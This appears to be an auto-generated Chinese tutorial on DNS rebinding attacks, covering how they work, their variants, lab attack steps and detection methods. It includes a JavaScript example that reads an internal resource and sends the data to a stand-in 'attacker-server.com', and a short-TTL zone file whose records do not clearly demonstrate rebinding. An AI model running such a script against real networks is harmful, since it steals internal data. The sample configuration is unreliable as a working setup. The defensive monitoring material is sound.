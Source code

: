# DNS重绑定攻击的检测与监控

## 1. 技术原理解析

### 1.1 DNS重绑定攻击概述
DNS重绑定攻击是一种利用DNS解析机制绕过同源策略（Same-Origin Policy, SOP）的攻击方式。攻击者通过控制DNS解析过程，使得浏览器在访问同一域名时，解析到不同的IP地址，从而绕过SOP限制，访问内部网络资源。

### 1.2 底层实现机制
DNS重绑定攻击的核心在于DNS解析的时效性和缓存机制。攻击者通过以下步骤实现攻击：
1. **域名注册与解析**：攻击者注册一个域名，并配置DNS服务器，使得该域名在短时间内解析到不同的IP地址。
2. **诱导用户访问**：攻击者通过钓鱼邮件、恶意广告等方式诱导用户访问攻击者控制的域名。
3. **DNS解析与重绑定**：用户在访问该域名时，DNS服务器返回一个合法的IP地址（如攻击者的服务器），随后在短时间内返回目标内部网络的IP地址。
4. **绕过同源策略**：由于浏览器认为两次访问的是同一域名，因此允许跨域请求，攻击者可以利用这一机制访问内部网络资源。

### 1.3 攻击流程
1. 用户访问攻击者控制的域名。
2. DNS服务器返回攻击者服务器的IP地址。
3. 用户浏览器与攻击者服务器建立连接。
4. DNS服务器在短时间内返回目标内部网络的IP地址。
5. 用户浏览器与目标内部网络建立连接，攻击者通过JavaScript等脚本访问内部资源。

## 2. 变种与高级利用技巧

### 2.1 基于TTL的变种
攻击者通过设置极短的TTL（Time to Live）值，使得DNS记录在短时间内失效，从而频繁更新DNS解析结果，增加攻击的成功率。

### 2.2 基于DNS缓存的变种
攻击者利用DNS缓存机制，通过控制DNS服务器的响应时间，使得浏览器在缓存失效前解析到不同的IP地址。

### 2.3 基于DNS负载均衡的变种
攻击者利用DNS负载均衡机制，使得同一域名解析到多个IP地址，从而增加攻击的复杂性和隐蔽性。

### 2.4 基于DNS劫持的变种
攻击者通过劫持DNS解析过程，直接修改DNS响应，使得用户访问到攻击者控制的服务器。

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建
1. **攻击者服务器**：搭建一个Web服务器，用于托管恶意脚本。
2. **DNS服务器**：配置一个DNS服务器，用于控制域名解析。
3. **目标内部网络**：模拟一个内部网络环境，包含需要保护的资源。
4. **受害者浏览器**：使用浏览器访问攻击者控制的域名。

### 3.2 攻击步骤
1. **注册域名**：注册一个域名，并配置DNS服务器。
2. **配置DNS服务器**：设置DNS服务器的解析规则，使得域名在短时间内解析到不同的IP地址。
3. **托管恶意脚本**：在攻击者服务器上托管恶意脚本，用于访问目标内部网络资源。
4. **诱导用户访问**：通过钓鱼邮件、恶意广告等方式诱导用户访问攻击者控制的域名。
5. **实施攻击**：用户在访问该域名时，DNS服务器返回不同的IP地址，攻击者通过恶意脚本访问内部网络资源。

## 4. 检测与监控方法

### 4.1 DNS日志分析
通过分析DNS日志，检测异常的DNS解析行为，如短时间内同一域名解析到不同的IP地址。

### 4.2 网络流量监控
通过监控网络流量，检测异常的HTTP请求，如跨域请求内部网络资源。

### 4.3 浏览器扩展检测
使用浏览器扩展，如NoScript、uBlock Origin等，检测和阻止恶意脚本的执行。

### 4.4 DNS重绑定防护工具
使用专门的DNS重绑定防护工具，如DNS防火墙、DNS重绑定检测器等，检测和阻止DNS重绑定攻击。

## 5. 实际命令、代码或工具使用说明

### 5.1 DNS服务器配置
```bash
# 配置DNS服务器，设置TTL为1秒
$TTL 1
@ IN SOA ns.example.com. admin.example.com. (
    2023010101 ; Serial
    3600       ; Refresh
    1800       ; Retry
    1209600    ; Expire
    1          ; Minimum TTL
)
@ IN NS ns.example.com.
@ IN A 192.168.1.1
@ IN A 192.168.1.2
```

### 5.2 恶意脚本示例
```javascript
// 恶意脚本，用于访问内部网络资源
fetch('http://internal-resource.local')
    .then(response => response.text())
    .then(data => {
        // 将数据发送到攻击者服务器
        fetch('http://attacker-server.com/steal', {
            method: 'POST',
            body: data
        });
    });
```

### 5.3 DNS日志分析工具
```bash
# 使用tcpdump捕获DNS流量
sudo tcpdump -i eth0 port 53 -w dns.pcap

# 使用tshark分析DNS日志
tshark -r dns.pcap -Y "dns" -T fields -e frame.time -e dns.qry.name -e dns.resp.addr
```

### 5.4 DNS重绑定防护工具
```bash
# 使用DNS防火墙配置规则
iptables -A INPUT -p udp --dport 53 -m string --algo bm --hex-string "|03|www|07|example|03|com|00|" -j DROP

# 使用DNS重绑定检测器
dnswatch --monitor --log dns.log
```

## 结论
DNS重绑定攻击是一种复杂的攻击方式，通过控制DNS解析过程绕过同源策略，访问内部网络资源。通过深入理解其技术原理、变种和高级利用技巧，以及掌握检测和监控方法，可以有效防御此类攻击。在实际应用中，结合DNS日志分析、网络流量监控、浏览器扩展检测和专门的防护工具，可以大大提高系统的安全性。

---

*文档生成时间: 2025-03-11 14:48:53*
